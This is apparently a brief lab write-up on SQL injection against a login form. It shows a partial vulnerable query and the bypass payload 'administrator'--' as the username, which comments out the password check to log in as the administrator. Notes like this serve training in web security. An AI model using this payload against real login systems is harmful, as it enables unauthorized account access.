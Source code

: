 # SQL injection - Login functionality 

End Goal: perform SQLi attack and log in as the administrator user.

Analysis
---------

SELECT firstname FROM users where username='admin' and 

user:administrator'--
pass: admin